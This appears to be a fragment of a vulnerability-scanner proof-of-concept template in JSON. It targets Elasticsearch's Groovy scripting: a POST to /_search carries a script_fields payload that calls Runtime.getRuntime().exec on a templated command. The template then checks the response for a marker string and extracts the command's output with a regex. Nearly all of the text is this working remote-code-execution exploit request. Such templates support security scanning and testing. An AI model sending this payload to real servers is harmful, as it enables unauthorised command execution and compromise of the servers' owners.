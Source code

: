 ```
        "operation": "AND",
        "checks": [
          {
            "type": "item",
            "variable": "$code",
            "operation": "==",
            "value": "201",
            "bz": ""
          }
        ]
      },
      "SetVariable": [
        "output|lastbody"
      ]
    },
    {
      "Request": {
        "method": "POST",
        "uri": "/_search?pretty",
        "follow_redirect": true,
        "header": {
          "Accept-Encoding": "gzip, deflate",
          "Accept": "*/*",
          "Connection": "close",
          "Accept-Language": "en",
          "Content-Type": "application/text"
        },
        "data_type": "text",
        "data": "{\"size\":1, \"script_fields\": {\"lupin\":{\"lang\":\"groovy\",\"script\": \"java.lang.Math.class.forName(\\\"java.lang.Runtime\\\").getRuntime().exec(\\\"{{{cmd}}}\\\").getText()\"}}}"
      },
      "ResponseTest": {
        "type": "group",
        "operation": "AND",
        "checks": [
          {
            "type": "item",
            "variable": "$code",
            "operation": "==",
            "value": "200",
            "bz": ""
          },
          {
            "type": "item",
            "variable": "$body",
            "operation": "contains",
            "value": "460f7ccb583e25e09c0fe100a2c9e90d",
            "bz": ""
          }
        ]
      },
      "SetVariable": [
        "output|lastbody|regex|(?s)\"lupin\" : \\[ \"(.*)\" \\]"
      ]
    }
  ]
```
